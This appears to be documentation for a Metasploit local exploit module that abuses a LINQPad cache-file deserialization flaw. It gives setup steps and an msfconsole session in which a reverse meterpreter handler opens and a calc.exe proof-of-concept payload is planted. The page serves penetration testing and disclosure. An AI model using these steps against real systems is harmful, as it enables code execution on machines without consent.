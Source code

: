 ## LINQPad 5.48 Deserialization

LINQPad is a scratchpad for .NET programming. Versions prior to 5.52 contain a deserialization vulnerability in processing cache file when program is starting. Application can be downloaded from [here](https://www.linqpad.net/).

## Verification Steps
Steps:

1. Install the application
2. Start msfconsole
3. Get Meterpreter/cmd shell
4. Run: `use windows/local/linqpad_deserialization`
5. Set payload - for example `set payload cmd/windows/generic` - and corresponding parameters
5. Set parameters `session`, `cache_path`, `linqpad_path`, `cleanup`
6. Run exploit

## Options

### cache\_path

The parameter sets path for folder, where vulnerable cache file is present. This is crucial part of the exploit as the folder can be used to identify whether the current version is vulnerable and the payload delivery is performed through cache file. 

### linqpad\_path

Final part of exploit runs the LINQPad to trigger deserialization procedure. The `linpad_path` parameter sets the path to LINQPad binary, which is ran at the end of exploit.

Example:

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST 192.168.95.128
msf6 exploit(multi/handler) > set LPORT 4242
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.95.128:4242 
[*] Meterpreter session 1 opened (192.168.95.128:4242 -> 192.168.95.130:53430) at 2024-12-30 12:46:16 +0100

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use windows/local/linqpad_deserialization
msf6 exploit(windows/local/linqpad_deserialization) > set LINQPAD_PATH C:/ProgramData/LINQPad/Updates50.AnyCPU/552/LINQPad.exe
msf6 exploit(windows/local/linqpad_deserialization) > set payload windows/exec/cmd
msf6 exploit(windows/local/linqpad_deserialization) > set cache_path C:/Users/ms/AppData/Local/LINQPad
msf6 exploit(windows/local/linqpad_deserialization) > set CMD calc.exe
msf6 exploit(windows/local/linqpad_deserialization) > set session 1
msf6 exploit(windows/local/linqpad_deserialization) > exploit
[*] Exploit completed, but no session was created.
```

Previous example will run `calc.exe` when LINQPad will start.

